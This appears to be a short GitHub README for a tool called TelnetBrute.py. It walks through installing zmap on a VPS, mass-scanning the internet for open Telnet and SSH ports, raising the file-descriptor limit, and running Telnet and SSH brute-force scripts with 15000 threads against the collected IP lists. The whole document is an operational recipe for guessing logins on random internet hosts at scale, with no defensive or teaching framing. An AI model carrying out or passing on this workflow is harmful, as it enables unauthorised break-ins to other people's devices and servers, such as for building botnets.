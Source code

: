 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

1- zmap -p23 -o mfu.txt -N 25000   OR   zmap -p23 -o mfu.txt -w example.lst

  1,5-- zmap -p22 -o mfussh.txt -w -N 25000 

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutrl.txt 15000 telnettest.txt OR python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



